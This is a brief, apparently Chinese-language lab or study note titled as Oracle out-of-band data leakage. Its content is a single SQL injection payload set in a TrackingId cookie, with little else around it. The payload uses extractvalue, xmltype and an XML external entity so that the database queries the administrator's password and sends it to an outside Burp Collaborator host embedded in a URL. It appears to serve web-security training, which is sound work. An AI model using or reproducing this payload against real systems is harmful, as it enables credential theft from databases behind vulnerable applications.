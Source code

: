 oracle数据库带外交互泄露数据

payload:

```javascript
TrackingId=wSR0EMmzIveEzi7k'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.n6uac1qxzsv0xqtqk04q6v0zyq4js8.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```



![](images/9AEADE67B2494A78B48B05D38A4A66D6clipboard.png)

